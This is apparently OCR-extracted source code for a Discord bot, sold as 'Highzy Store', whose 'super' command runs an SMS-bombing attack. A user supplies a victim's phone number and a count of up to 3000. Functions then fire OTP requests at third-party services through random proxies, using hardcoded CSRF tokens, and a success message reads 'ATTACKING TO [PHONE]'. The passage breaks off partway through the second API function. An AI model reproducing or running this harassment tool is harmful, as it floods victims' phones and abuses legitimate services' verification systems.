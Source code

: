 # spam sms
@bot.command("super")
async def super(ctx, no=None, jam:int=None):
	try:
		if (str(ctx.message.channel.id) == "1168522772180385855"):
			if (no == None or jam == None):
				response = discord.Embed(title="Highzy Store",description="Highzy Spamsms",color=0xe31010)
				await ctx.reply(embed=response)
			else:
				phone = no
				jam = jam
				embed = discord.Embed(title="✅ SUCCESS",description=f"ATTACKING TO [PHONE] > ||{no}|| [AMOUNT] > {jam}/3000",color=0x45fc03)
				embed.set_image(url="https://cdn.discordapp.com/attachments/1179255248787873953/1180415784967745536/high.png?ex=657d56de&is=656ae1de&hm=cc029525f43241fcb400d0befaaa53d0be8831b7d0e1cf83e3565ff8eaa51144&")
				await ctx.reply(embed=embed)
				SMS(phone, jam)
	except:
		response = discord.Embed(title="Highzy Store",description="Highzy Spamsms",color=0xe31010)
		await ctx.reply(embed=response)

def api1(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  send = Session()
  send.headers.update({
      "user-agent":
      "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36",
      'content-type':
      'application/x-www-form-urlencoded; charset=UTF-8'
  })
  sms = send.post("https://api.jobbkk.com/v1/easy/otp_code",
                  data="mobile=" + phone,
                  proxies={'http': 'http://' + random.choice(s)})
  if sms.status_code == 200 or sms.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {sms.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {sms.status_code}"
    )


def api2(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.post(
      "https://www.theconcert.com/rest/request-otp",
      headers={
          "x-xsrf-token":
          "33ed88f53546803c779ff8c10e7386057YuSCY/kUuCibrt0phirk+ftZp83UlwChfA5qjn8OJy268fFbtZDDu5U3Wc+UMKSLdUFEtf7U4rRzuy2rvmK+LFcY5y5N6eextOHy53Eg9zuedQdkV0DSRIKKo4q0CBA",
          "x-csrf-token": "ai49Zub4-IsdrbJwOTXdL5bZy1RU2QvpHSPc",
          "cookie":